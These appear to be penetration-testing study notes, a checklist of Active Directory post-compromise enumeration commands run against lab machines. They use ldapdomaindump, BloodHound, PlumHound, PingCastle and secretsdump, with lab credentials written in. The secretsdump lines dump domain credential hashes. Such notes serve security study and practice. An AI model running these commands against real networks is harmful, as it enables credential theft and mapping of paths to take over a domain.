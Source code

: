 
![[Pasted image 20241110192337.png]]

```
Domain Enumeration with 

- [ ] ldapdomaindump 
- [ ] Bloodhound 
- [ ] Domain Enumeration with Plumhound 
- [ ] Domain Enumeration with PingCastle 
```



<h2>Post-Compromise Enumeration</h2>


- [ ] ldapdomaindump
```
ldapdomaindump ldaps://10.10.10.182 -u 'Cascade.local\ArkSvc' -p 'w3lc0meFr31nd'
```

```
ldapdomaindump ldaps://<Domain_IP> -u 'Marvel\fcastle' -p 'w3lc0meFr31nd' -o <directory_name>
```





- [ ] BloodHound

Neo4j
```
neo4j console
```

```
neo4j
neo4j
neo4j1
password
```

run bloodhound
```
bloodhound
```

Ingestor
```
bloodhound-python -d Cascade.local -u ArkSvc -p 'w3lc0meFr31nd' -ns 10.10.10.182  -c all 
```





- [ ] Plumhound
```
git clone https://github.com/PlumHound/PlumHound.git
cd PlumHound
pip3 install -r requirements.txt
```

```
python3 PlumHound.py --easy -p password
```

```
python3 Plumhound.py -x tasks/default.tasks -p password
```
Open the index.html



- [ ] PingCastle

We can download this and have to run it with elevated privileges (i.e. we have to get the rdp connection to the victim connected to DC)

https://www.pingcastle.com/




- [ ] secretsdump

```
secretsdump.py -no-pass -just-dc MULTIMASTER\$@10.10.10.179
```

```
secretsdump.py Cascade.local/ArkSvc:'w3lc0meFr31nd'@10.10.10.182 
```


- [ ] 